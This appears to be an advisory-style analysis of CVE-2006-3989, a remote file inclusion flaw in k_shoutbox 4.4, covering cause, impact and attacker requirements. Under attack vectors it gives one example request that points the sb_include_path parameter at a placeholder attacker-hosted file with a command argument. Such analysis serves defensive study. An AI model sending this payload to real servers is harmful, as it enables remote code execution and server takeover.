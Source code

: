 Based on the provided content, here's an analysis of CVE-2006-3989:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) vulnerability in the `k_shoutbox` version 4.4.
*   The application uses a variable `sb_include_path` to determine the path for including files. This variable is not properly sanitized and can be manipulated by an attacker.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary weakness is the ability to include remote files by manipulating the `sb_include_path` variable. This allows an attacker to execute arbitrary code by including a malicious file from a remote server.
*   **Lack of Input Sanitization:** The application does not properly sanitize the `sb_include_path` parameter, allowing an attacker to inject a malicious URL.

**Impact of Exploitation:**

*   **Remote Command Execution (RCE):** By including a remote file containing malicious code, an attacker can achieve remote command execution on the server hosting the vulnerable application. This could lead to complete compromise of the server and its data.
*  **Arbitrary Code Execution:** The attacker can execute arbitrary code on the server by including malicious files, leading to data theft, malware installation, or further exploitation.

**Attack Vectors:**

*   **HTTP GET Request Parameter Manipulation:** The attacker manipulates the `sb_include_path` parameter in an HTTP GET request to inject a malicious URL pointing to the attacker's server. For example, `http://www.site.com/[path]/sb/index.php?sb_include_path=http://[site]/evilcode.txt?&cmd=id`.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs network access to the vulnerable server.
*   **Ability to host a malicious file:** The attacker must host a malicious file accessible via HTTP.
*   **Understanding of the application:** The attacker needs to identify the vulnerable parameter `sb_include_path` to inject a malicious URL.

**Additional Notes:**
*   The exploit was first published on milw0rm.com on 2006-08-01.
*   The Exploit-DB entry mentions the vulnerability was discovered by "Kurdish Security".
*   The exploit code provided shows how to inject a malicious URL to gain code execution via RFI.
